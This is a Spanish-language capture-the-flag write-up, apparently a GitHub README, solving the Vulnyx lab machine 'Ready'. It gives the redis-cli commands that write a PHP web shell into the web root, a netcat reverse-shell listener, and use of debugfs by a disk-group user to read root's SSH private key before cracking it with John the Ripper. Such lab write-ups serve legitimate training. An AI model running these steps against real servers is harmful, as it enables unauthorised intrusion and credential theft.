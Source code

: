 ## Resolución de la máquina Ready de Vulnyx

### Escaneo Nmap
El primer paso fue realizar un escaneo con `nmap`, que reveló los siguientes puertos abiertos:

![Captura de pantalla 2024-10-10 191755](https://github.com/user-attachments/assets/e13d73db-567a-4ad7-9f60-eae0669ee4dc)

### Explotación del servicio Redis
Noté que Redis estaba mal configurado, permitiendo el acceso sin autenticación. Ejecuté los siguientes comandos para obtener acceso a la máquina:

```bash
❯ redis-cli -h 192.168.1.118
192.168.1.118:6379> config set dir /var/www/html
OK
192.168.1.118:6379> config set dbfilename cmd.php
OK
192.168.1.118:6379> set test "<?php system($_GET[cmd]); ?>"
OK
192.168.1.118:6379> save
OK
```

Esto me permitió generar un archivo `cmd.php` en el directorio accesible desde la web. A través de la URL, pude ejecutar comandos en el servidor y envié una reverse shell hacia mi terminal.

### Conexión a la máquina
En mi máquina local, me puse en escucha con `netcat` usando el puerto 444:

```bash
❯ nc -lnvp 444
```

Luego, accedí a la URL `http://192.168.1.118/cmd.php?cmd=<comando_shell>`, lo que inició la conexión reversa. Ahora tenía una shell en el servidor como el usuario **ben**.

![Captura de pantalla 2024-10-10 194457](https://github.com/user-attachments/assets/a793a293-7f11-4d5b-86a5-4f632f45952d)

![Captura de pantalla 2024-10-10 194512](https://github.com/user-attachments/assets/1af359dd-e79d-4664-80e0-f3437be07ad4)

### Primera flag
Una vez dentro de la máquina, exploré el directorio `/home/ben` y encontré la primera flag: `user.txt`. La leí y la guardé.

![Captura de pantalla 2024-10-10 194717](https://github.com/user-attachments/assets/8a0dc39c-24cc-4ff5-ad3e-33a64ea2df08)

### Escalada de privilegios
Al ejecutar el comando `id`, descubrí que el usuario **ben** pertenece al grupo `disk`, lo que significa que tiene privilegios de lectura y escritura en dispositivos de almacenamiento.

![Captura de pantalla 2024-10-10 202101](https://github.com/user-attachments/assets/c9249836-18b7-4e29-aee0-15af012c412f)

Utilicé el siguiente comando para listar las particiones:

```bash
❯ df -h
```

Luego, accedí al sistema de archivos utilizando `debugfs` para inspeccionar el dispositivo `/dev/sda1`:

```bash
❯ debugfs /dev/sda1
```

Navegando por el sistema de archivos con `debugfs`, encontré la clave RSA de root en `/root/.ssh/id_rsa`.

![Captura de pantalla 2024-10-10 202155](https://github.com/user-attachments/assets/9ea4eafc-e588-4222-80bb-645d77c98bcc)

### Obtener el acceso como root
Usé **John the Ripper** para craquear la contraseña de la clave privada RSA:

![Captura de pantalla 2024-10-10 202314](https://github.com/user-attachments/assets/7bee13e3-1239-49f5-90bb-1d167fa030c8)

Una vez obtenida la contraseña, inicié sesión como **root** utilizando la clave RSA y el siguiente comando:

![Captura de pantalla 2024-10-10 202552](https://github.com/user-attachments/assets/ef163a38-c6e8-4e81-9f18-4ef6c2908577)

### Flag final
Ya como root, encontré la flag final protegida dentro de un archivo comprimido en `/root`. El archivo estaba protegido por contraseña, pero nuevamente utilicé **John the Ripper** para craquear la contraseña del archivo `.zip`:

![Captura de pantalla 2024-10-10 203944](https://github.com/user-attachments/assets/1286d05a-2cdc-442f-a029-6569c5ded6d1)


Tras craquear la contraseña y descomprimir el archivo, obtuve la flag final.

![Captura de pantalla 2024-10-10 204024](https://github.com/user-attachments/assets/06d1ceac-c7cc-46b2-b88e-28b0d9b1a0d5)

¡Máquina pwned!
